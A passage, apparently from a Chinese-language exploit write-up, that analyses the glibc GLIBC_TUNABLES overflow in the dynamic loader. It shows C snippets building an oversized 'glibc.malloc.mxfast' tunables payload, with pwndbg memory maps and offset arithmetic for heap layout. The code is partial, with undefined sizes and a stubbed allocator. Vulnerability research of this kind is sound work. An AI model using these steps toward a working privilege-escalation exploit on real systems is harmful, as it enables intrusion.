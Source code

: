 ```bash
    for (size_t i = prefixLength; i < sizeof(fill) - 1; i++) {
        fill[i] = 'A';
    }
    fill[sizeof(fill) - 1] = '\0';
    void *allocatedMemory = __minimal_malloc(0xd00 + 1);
    free(allocatedMemory);

    return 0;
}
```

```bash
RAX  0x7f4109f8f2e0 ?— 0x0  
pwndbg> vmmap
0x7f4109f8c000     0x7f4109f90000 rw-p     4000 37000  /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
> hex(0x7f4109f8f2e0 + 0xd01)
'0x7f4109f8ffe1'
> hex(0x7f4109f90000 - 0x7f4109f8ffe1)
'0x1f'
```

如果在程序的后续部分，通过 `malloc` 或其他内存分配函数再次请求超过剩余内存大小（0x1f 字节）的内存，系统可能会选择使用 `mmap` 来映射一个新的内存区域，以满足这个较大的分配请求。

**再次设置环境变量**

```bash
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void* __minimal_malloc(size_t size) {
    // 实现 __minimal_malloc 的代码，这里简单地使用标准库的 malloc 作为示例
    return malloc(size);
}
int main() {
    char *payload = (char*)__minimal_malloc(PAYLOAD_SIZE);

    const char *prefix = "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=";
    strcpy(payload, prefix);

    size_t prefixLength = strlen(prefix);
    for (size_t i = prefixLength; i < PAYLOAD_SIZE - 1; i++) {
        payload[i] = 'B';
    }
    payload[PAYLOAD_SIZE - 1] = '\0';
    free(payload);
    return 0;
}
```

```bash
*RAX  0x7f4109f52000 ?— 0x0     # malloc 的返回值
pwndbg> vmmap
  0x7f4109f52000     0x7f4109f54000 rw-p     2000 0      [anon_7f4109f52]
> hex(0x7f4109f52000 + 0x100)
'0x7f4109f52100'
```
